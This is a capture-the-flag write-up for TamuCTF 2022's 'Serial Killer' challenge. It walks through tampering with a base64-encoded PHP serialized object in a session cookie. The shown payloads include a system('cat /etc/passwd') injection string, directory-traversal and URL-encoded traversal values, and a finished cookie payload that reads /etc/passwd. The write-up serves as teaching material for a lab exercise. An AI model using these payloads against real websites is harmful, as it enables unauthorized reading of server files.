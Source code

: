 # Serial Killer 
## Tamu CTF 2022


## Challenge Description:

I'm trying a new way to display files on my website. Can you try to break it for me?

Do not connect with HTTPS, make sure to connect with HTTP

Link: [http://serial.tamuctf.com](http://serial.tamuctf.com/)

Tip: The flag is located in the `/etc/passwd` file.

## Solution:

So the page looks something like this,

![](Aspose.Words.8de23a1c-c73d-4868-acd1-d9bec2c3d94c.001.jpeg)

So, when we checked the cookies, we saw `phpsessid` cookie with encoded value. 

Phpsessid: Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30%3D

When I url decoded and base-64 decoded this string, we get the following:

Url decoded: Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6MTA6ImluZGV4Lmh0bWwiO30=

Base-64 decoded: O:7:"GetPage":1:{s:4:"file";s:10:"index.html";}

What we got is nothing but a serialised object. There is some block of code on the server called GetPage and it has a parameter called file that takes in a value index.html which is what we see in  our browser.

So, we are given that the flag is in `etc/passwd`. So, we can try giving `etc/passwd` in the place of `index.html` in the serialised object. So, the string looks like:

O:7:"GetPage":1:{s:4:"file";s:11:"/etc/passwd";}

We can base64 encode it and url encode it and submit in the `phpsessid` cookie, but we get an error message:

![](Aspose.Words.8de23a1c-c73d-4868-acd1-d9bec2c3d94c.002.jpeg)

O:7:"GetPage":1:{s:4:"file";s:26:"system(\'cat+/etc/passwd\');";}

The above string also gave some error.

Then we tried directory traversal and gave the following string:

O:7:"GetPage":1:{s:4:"file";s:25:"../../../../../etc/passwd";}

Surprisingly, the above string also gave an error, then tried url encoding `./../../../../etc/passwd` and giving it into the serialised form,

O:7:"GetPage":1:{s:4:"file";s:46:"%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc/passwd";}

Then base64 encoded and url encoded this and got the following:

Tzo3OiJHZXRQYWdlIjoxOntzOjQ6ImZpbGUiO3M6NDY6IiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZiUyZSUyZSUyZmV0Yy9wYXNzd2QiO30%3D

Submitting this to the `phpsessid` cookie gave us the flag:

`Flag:  gigem{1nt3r3sting\_LFI\_vuln}`
